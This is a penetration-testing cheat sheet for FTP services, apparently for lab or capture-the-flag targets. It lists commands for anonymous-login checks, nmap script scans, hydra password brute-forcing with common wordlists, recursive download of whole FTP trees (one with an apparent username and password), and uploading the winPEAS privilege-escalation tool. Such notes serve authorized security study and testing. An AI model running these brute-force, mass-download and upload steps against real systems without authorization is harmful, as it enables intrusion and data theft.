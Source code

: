 # FTP Checklist

1. See if there is anonymous access

```bash
ftp $ip
ftp $ip 21
ftp -A $ip
ftp -A $ip 21
# input anonymous as username and password
# try in the browser
ftp://anonymous:anonymous@10.10.10.98
```

2. Additional Enumeration

```bash
nmap --script ftp-* -p 21 10.10.10.10
```

3. Brute force

```bash
hydra -l USERNAME -P /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 192.168.X.XXX ftp -V
hydra -l steph -P /usr/share/wfuzz/wordlist/others/common_pass.txt 10.1.1.68 -t 4 ftp
hydra -l steph -P /usr/share/wordlists/rockyou.txt 10.1.1.68 -t 4 ftp
```

3. Recursively download content

```bash
> prompt off
> recurse on
> mget *
```

or

````
wget -r ftp://steph:billabong@10.1.1.68/
wget -r ftp://anonymous:anonymous@192.168.204.157/

find / -name Settings.*  2>/dev/null #looking through the files
````

4. Interact

````
# Put File
put test.txt #check if it is reflected in a http port

# Upload Binary
ftp> binary
200 Type set to I.
ftp> put winPEASx86.exe


````